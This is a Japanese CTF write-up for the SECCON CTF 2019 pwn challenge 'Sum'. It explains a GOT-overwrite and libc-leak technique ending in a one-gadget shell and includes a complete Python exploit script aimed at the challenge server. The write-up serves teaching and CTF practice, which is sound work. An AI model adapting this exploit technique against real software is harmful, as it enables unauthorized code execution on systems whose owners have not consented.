 # [pwn 289pts] Sum - SECCON CTF 2019
64ビットバイナリで、PIEとRELRO以外は有効です。
```
$ checksec -f ./sum
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols     Yes      0               2       ./sum
```
総和が求められますが、総和を代入する変数のポインタも書き換えられるので自由なアドレスに総和を入れられます。ここで入力した数字がいい感じにスタックに残ってROPに使えるというのが想定解だったそうです。
私はまずexitのGOTをmainに向けました。そしてstdoutの下位1バイトを0x10だけずらし、setvbufをputsに向けます。`_start`にジャンプすることで`setvbuf(stdout+0x10, ...)`が呼ばれ、libc leakできます。あとはone gadgetに飛ばして終了です。
```python
from ptrlib import *
from time import sleep

def overwrite(target, value):
    sock.recvuntil("0\n")
    sock.sendline(str(-target))
    sock.sendline(str(2))
    sock.sendline(str(-1))
    sock.sendline(str(-1))
    sock.sendline(str(value))
    sock.sendline(str(target))
    return

elf = ELF("./sum")
libc = ELF("./libc.so")
#sock = Process("./sum")
sock = Socket("sum.chal.seccon.jp", 10001)
libc_one_gadget = 0x10a38c

# libc leak
overwrite(elf.got("exit"), elf.symbol("main"))
overwrite(elf.got("__stack_chk_fail"), elf.symbol("main"))
overwrite(elf.got("setvbuf"), elf.plt("puts"))
overwrite(0x601060 - 7, 0x7000000000000000)
overwrite(elf.got("exit"), elf.symbol("_start"))
libc_base = u64(sock.recvline()) - libc.symbol("_IO_2_1_stdout_") - 131
logger.info("libc base = " + hex(libc_base))

# one gadget!
overwrite(elf.got("exit"), libc_base + libc_one_gadget)

sock.interactive()
```

# 感想
いい感じの問題だと思います。（小並）
